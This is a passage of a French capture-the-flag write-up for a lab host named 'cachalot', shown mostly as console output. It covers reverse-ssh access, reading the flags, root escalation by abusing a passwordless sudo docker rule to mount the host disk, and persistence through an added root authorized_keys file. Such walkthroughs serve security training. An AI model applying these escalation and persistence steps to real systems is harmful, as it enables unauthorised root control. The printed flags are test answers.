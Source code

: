 ### Fuckalot

J'ai ensuite migré vers `reverse-ssh` et obtenu le premier flag :

```console
git@gitlab:/$ ls root/
total 28K
drwxr-xr-x 3 1001 1001 4.0K Oct  9  2022 .
drwxr-xr-x 1 root root 4.0K Oct  9  2022 ..
-rw-r--r-- 1 1001 1001  220 Oct  9  2022 .bash_logout
-rw-r--r-- 1 1001 1001 3.5K Oct  9  2022 .bashrc
-rw-r--r-- 1 1001 1001  807 Oct  9  2022 .profile
-rw-r--r-- 1 root root   33 Oct  9  2022 local.txt
drwxr-xr-x 3 root root 4.0K Oct  9  2022 srv
git@gitlab:/$ cat root/local.txt 
64675c29aaa3f6d9d7c68e53706aac5a
```

L'utilisateur peut exécuter docker de manière privilégiée :

```console
git@gitlab:/root/srv$ sudo -l
Matching Defaults entries for git on gitlab.cachalot.local:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User git may run the following commands on gitlab.cachalot.local:
    (root) NOPASSWD: /usr/bin/docker
```

L'exploitation est classique :

```
git@gitlab:/root/srv$ sudo docker images        
REPOSITORY                   TAG                 IMAGE ID            CREATED             SIZE
ubuntu                       18.04               71cb16d32be4        2 years ago         63.1MB
grafana/grafana-enterprise   8.3.0-ubuntu        524526155bfd        3 years ago         371MB
gitlab/gitlab-ce             11.4.7-ce.0         cf1633301167        6 years ago         1.56GB
pottava/docker-webui         latest              3344db67bbf8        8 years ago         20.8MB
whalesalad/docker-debug      latest              6fdc3b7202f0        9 years ago         41.9MB
git@gitlab:/root/srv$ sudo docker run -it -v /:/disk 71cb16d32be4
root@1fac0df0b70d:/# cd /disk/root/
root@1fac0df0b70d:/disk/root# ls
proof.txt
root@1fac0df0b70d:/disk/root# cat proof.txt 
02c157a9d76e85bfd03546fb74d0a384
```

Nous sommes donc dans le container, mais comme on a monté le disque hôte, on a le flag final. Pour obtenir un shell, on peut ajouter un `authorized_keys` au compte root puis se connecter en SSH :

```console
$ ssh -i ~/.ssh/key_no_pass root@cachalot.local
Linux cachalot 5.10.0-14-amd64 #1 SMP Debian 5.10.113-1 (2022-04-29) x86_64

root@cachalot:~# hostname
cachalot
root@cachalot:~# ip addr
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: enp0s3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 08:00:27:3c:c9:23 brd ff:ff:ff:ff:ff:ff
    inet 192.168.56.141/24 brd 192.168.56.255 scope global dynamic enp0s3
       valid_lft 426sec preferred_lft 426sec
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
```